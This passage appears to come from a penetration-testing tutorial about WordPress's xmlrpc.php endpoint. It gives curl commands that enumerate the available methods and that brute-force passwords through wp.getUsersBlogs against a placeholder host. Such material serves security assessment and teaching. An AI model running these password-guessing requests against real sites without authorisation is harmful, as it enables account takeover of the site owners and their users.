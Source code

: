 It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

Identifying the correct method to call is easy utilize `system.listMethods` as follows:
```bash
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://target-wordpress.com/xmlrpc.php
```
More can be found in this [documentation](https://codex.wordpress.org/XML-RPC/system.listMethods).

We can also mount a password brute-forcing attack through `xmlrpc.php`, as follows:
```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://target-wordpress.com/xmlrpc.php 
```